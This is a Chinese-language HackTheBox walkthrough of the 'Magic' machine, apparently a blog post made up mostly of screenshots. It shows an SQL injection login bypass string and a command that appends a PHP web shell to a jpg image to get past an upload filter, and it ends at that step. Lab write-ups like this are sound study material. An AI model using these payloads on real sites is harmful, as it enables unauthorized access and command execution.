 ```yaml
---
layout: post
title:  "HackTheBox >_ Magic_185"
description: walkthrough
category: HackTheBox
---
```

# Magic_185

![image-20200917091235729]({{ site.url }}/assets/Magic_185.assets/image-20200917091235729.png)

![image-20200626221132822]({{ site.url }}/assets/Magic_185.assets/image-20200626221132822.png)

![image-20200626222049622]({{ site.url }}/assets/Magic_185.assets/image-20200626222049622.png)

![image-20200626225741218]({{ site.url }}/assets/Magic_185.assets/image-20200626225741218.png)

是一个可以通过登录上传图片并展示的网站，查看源码，发现了可能的文件上传目录

![image-20200626231019218]({{ site.url }}/assets/Magic_185.assets/image-20200626231019218.png)

看一下登录页面

![image-20200626223132169]({{ site.url }}/assets/Magic_185.assets/image-20200626223132169.png)

抓包，用数据库登录绕过语句字典打一下

![image-20200626223249132]({{ site.url }}/assets/Magic_185.assets/image-20200626223249132.png)

![image-20200626223504542]({{ site.url }}/assets/Magic_185.assets/image-20200626223504542.png)

![image-20200626223633076]({{ site.url }}/assets/Magic_185.assets/image-20200626223633076.png)

可成功绕过的语句有很多。随便使用一个登录

```bash
admin' or '1'='1'#
```

![image-20200626224244796]({{ site.url }}/assets/Magic_185.assets/image-20200626224244796.png)

尝试上传，看提示只允许jpg,jpeg,png。

![image-20200626224648776]({{ site.url }}/assets/Magic_185.assets/image-20200626224648776.png)

使用最常用的方法制作jpg cmd shell，随便cp到工作目录一个jpg图片文件，为图片追加php

```bash
echo '<?php system($_GET['cmd']); ?>' >> img_cmd_shell.php.jpg
```

![image-20200626233429047]({{ site.url }}/assets/Magic_185.assets/image-20200626233429047.png)
